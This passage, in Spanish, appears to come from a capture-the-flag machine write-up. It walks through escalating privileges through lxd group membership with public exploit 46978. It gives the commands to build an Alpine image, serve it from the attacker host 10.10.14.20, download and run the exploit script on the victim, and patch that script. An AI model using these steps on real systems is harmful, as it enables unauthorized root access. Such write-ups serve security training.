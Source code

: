 En este punto vemos que el usuario xalvas esta en el grupo **lxd** y ya tenemos la posibilidad de escalar privilegios con esto.

```bash
searchsploit lxd
searchsploit -x 46978
```

Si Si el exploit a sido creado por el mismo S4vitar. Para usar el exploit, lo primero es mirar si estamos en una maquina 32 o 64 bits.

```bash
uname -a
```

Seguimos los pasos del exploit

1. En la maquina de atacante

    ```bash
    wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine
    chmod +x build-alpine
    ./build-alpine # --> para maquinas x64
    ./build-alpine -a i686 # --> para maquinas i686
    searchsploit -m 46978
    mv 46978.sh lxd_privesc.sh
    dos2unix lxd_privesc.sh
    python3 -m http.server 80
    ```

1. En la maquina victima

    ```bash
    wget http://10.10.14.20/alpine-v3-14-i686-20210728_2134.tar.gz
    wget http://10.10.14.20/lxd_privesc.sh
    chmod +x lxd_privesc.sh
    ./lxd_privesc.sh -f alpine-v3-14-i686-20210728_2134.tar.gz
    ```

1. vemos un error 
```bash
 error: This must be run as root 
```
. Modificamos el fichero lxd_privesc.sh

    ```bash
    nano lxd_privesc.sh
    ```

    en la function createContainer(), borramos la primera linea:
    
    ```bash
    # lxc image import $filename --alias alpine && lxd init --auto
    ```

1. Ya estamos root pero en el contenedor. Modificamos la 
```bash
 /bin/bash 
```
 de la maquina
